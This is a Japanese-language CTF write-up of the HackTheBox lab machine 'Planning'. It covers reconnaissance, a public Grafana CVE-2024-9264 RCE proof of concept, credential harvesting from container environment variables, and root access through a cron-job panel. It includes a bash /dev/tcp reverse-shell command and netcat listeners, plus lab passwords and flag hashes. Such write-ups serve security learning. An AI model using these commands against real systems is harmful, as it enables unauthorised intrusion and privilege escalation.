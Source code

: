# Planning WriteUps 

- **[HackTheBox_Planning](https://app.hackthebox.com/machines/Planning)**

- admin / passwords
```
admin / 0D5oT70Fq13EvB5r
```

- WorkSpeace
```
mkdir Planning && cd Planning
```

## 調査
まず、targetであるip address(```10.10.11.68```)に```nmap```もしくは```rustscan```でもいいので
開いているサービスを調べる
### 付け加え
こうするといちいちipを入力しなくてもいい
```
export ip="10.10.11.68"
# 使用するときは $ipと使う
```

### Nmap Options
- nmap cmd 
```
nmap $ip -sC -sV -sC -oN target_port.log -T4  
```

- scan結果
```
# Nmap 7.95 scan initiated Tue Jul  1 14:53:40 2025 as: /usr/lib/nmap/nmap -sS -sV -sC -oN target_port.log -T4 10.10.11.68
Nmap scan report for 10.10.11.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  1 14:54:05 2025 -- 1 IP address (1 host up) scanned in 24.95 seconds
```

これらから、22,80が開いていることがわかる。
また、```_http-title: Did not follow redirect to http://planning.htb/```から```/etc/hosts```に
```10.10.11.68   planning.htb```と指定する必要がある。

### http://planning.htbにて
contactなどの送信フォームなどでスクリプトを発火させることができるかと検証をしたが
特に見当たらなかったので```ffuf```でsubdomainを探すことにした

今回使用したwordlilst
- **[Seclists](https://github.com/danielmiessler/SecLists)**

gitでclone
```
git clone https://github.com/danielmiessler/SecLists.git
```
ちなみに今後様々な問題を解くうえでこういったwordlistsは```/usr/share```の下に設けるといいだろう

僕の場合、```Planning``` wordspaceに
```
cat /usr/share/Seclists/Discoverty/DNS/subdomains-* >> subdomain.txt
```
とすべてのsubdomainを```subdomain.txt```でまとめて使用した。

### ffuf Options
```
ffuf -w subdomain.txt -u http://planning.htb -c -H "Host :FUZZ.planning.htb" -o ffuf.log
```
これにより、```grafana```というsubomainが見つかる。
もちろん、```grafana.planning.htb```を```/etc/hosts```に追加しなければならないので
```10.10.11.68   planning.htb grafana.planning.htb```となる。

そこから、```http://grafana.planning.htb```にアクセスすると
```/login```ページに飛ばされる。
そこから有力な情報がないか調べた際に
Version情報があり、```Grafana v11.0.0 (83b9528bce)```と記載されてたため
そこからExploitを探索し```CVE-2024-9264```が見つかり、
Githubから**[Poc](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)**を使用し

先に```netcat```で待ち受けし、
```
nc -lvnp 1234
```

その後、以下のoptionで```poc.py```スクリプトを実行
```
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.11.68 --reverse-port 1234 
```

###　Environment
無事に入れたので
まず、このマシンがコンテナどうか```env```で調べます。
```
GF_PATHS_LOGS=/var/log/grafana
_=dockerenv
```
この情報から```Docker````のコンテナ内というのがわかりました。
また、
```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```
これらの情報から```enzo``` Userと```RioTecRANDEntANT!``` Passwordを取得できた。

## User Flag

```
ssh -p 22 enzo@10.10.11.68
```
から```RioTecRANDEntANT!```とpasswordを入力し、
user.txtからFlagを取得
```
86c057f17190dee41a5c5295959d573d
```
### サービスチェック
他にもこのマシン上でどのサービスが開いているか調べるために
```
ss -tul
```
で調べた結果
```
127.0.0.1:8000
```
が開いており、それを自分のマシンへと転送するために
```
ssh -p22 enzo@10.10.11.68 -L 8000:127.0.0.1:8000
```
とし、
自分のマシンから```http://127.0.0.1:8000```にアクセス
すると、loginホップアップが出たので
一旦、```10.10.11.68```のsshに戻って
そこでlogin情報で必要な情報を```linpeas.sh```を使ってみる。
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
で自分のマシンにダウンロードします。
targetマシンである```10.10.11.68```に持っていきたいので
自分のマシンで以下のcmdを実行
```
python3 -m http.server 8080
```

これでHTTP Serverが開くので
targetマシン上で
```
wget http://10.10.XX.XX:8080/linpeas.sh
```
で持ってきて
```
chmod +x linpeas.sh
```
実行権限を与えて```./linpeas.sh```でscanします。

SQL File Pathから```Found /var/lib/command-not-found/commands.db```が出力され
```
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
から、
```
root /  P4ssw0rdS0pRi0T3c
```
を発見！

試しにlogin ホップアップに入力
無事、loginできました！！

その後、新規で
```
bash -c 'exec bash -i >& /dev/tcp/10.10.16.3/1234 0>&1'
```
を保存し
先に```netcat```で待ち受けし
```
nc -lvnp 1234 
```

そして、```run now```で実装します。

そうするとshellがとれて```id```から
```
uid=0(root) gid=0(root) groups=0(root)
```
わかり、```/root/root.txt```

## Root Flag
```
0ebacefa1bfc4ad4eca56fa64ba4de02
```

## Completed!!

- 参考の資料(URL)
https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7
https://qiita.com/notthei/items/c257ef1004345b51a969
